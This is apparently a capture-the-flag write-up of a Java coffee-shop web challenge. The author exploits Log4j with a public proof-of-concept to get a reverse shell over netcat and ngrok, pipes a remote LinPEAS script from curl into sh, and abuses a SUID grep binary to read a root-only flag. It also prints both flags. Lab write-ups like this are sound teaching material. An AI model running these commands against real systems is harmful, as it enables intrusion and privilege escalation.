

# ezLog

> _Failed to solve this during the CTF_  
> _(Solved it with the help of my friend)_

## Challenge Description

This shop sells the freshest of all java coffee

Flag 1 is located at /home/user/flag1.txt

Flag 2 is located at /root/flag2.txt

Note: Replace user to the user you have gained access to

## Initial Look

The challenge is a web challenge  


There are multiple hints in the challenge description and the webpage itself telling us that this is a Java web application.

Let's try to enter some wrong username and password:  


We are greeted with an error page saying "we will **log** your information".

Searching for Java log vulnerabilities reveals that there is a Java Log4j vulnerability. After more searching, I found a [github repo](https://github.com/kozmer/log4j-shell-poc) with a Log4j vulnerability proof-of-concept.

## Setting up the tool

Cloning the repo and installing the required packages:
```
git clone https://github.com/kozmer/log4j-shell-poc.git
```
```
pip install -r requirements.txt
```

Reading the [readme file](https://github.com/kozmer/log4j-shell-poc#getting-the-java-version) we also needed to download an appropriate java version for the program to work.

Use `netcat` to listen for connections on port 4444:
```
nc -lnvp 4444
```

To allow the victim to connect to our local listening port, I'll be using `ngrok`  


Since the proof of concept is made for testing a local server, some modifications are also needed for the python script:  
  


## Getting the first flag

running the exploit script:
```
./poc-modified.py --userip 0.tcp.ap.ngrok.io --webport 9000 --lport 13352
```

https://user-images.githubusercontent.com/65378401/179755448-99039bdb-7cf0-4edf-9896-1b7c9bc55ba5.mp4

Flag 1 Captured: `FLAG{f6f7660539def9f18d140d2bde0c18f8}`

## Escalating privileges

Now that we have the 1st flag, it's time to escalate our privileges to read the 2nd flag.

> Remember that in the challenge description, the 2nd flag is located at `/root/flag2.txt`


As expected, we will need root priveleges to read the file. Time to do some privilege escalation.

I used [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to scan the machine for any vulnerability to exploit.
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Based on the legend, red/yellow text are what we should be looking out for:  


Scrolling through the output, we found something that looks promising:


I found an [article](https://gtfobins.github.io/gtfobins/grep/#suid) while searching for exploits related to `grep` and `suid`. We might be able to use the grep command to read files with root privileges!

Let's try it out:  


Nice! We successfully got the second flag.

Flag 2 Captured: `FLAG{e5ac253a9968ca228161edc8e01faa8b}`
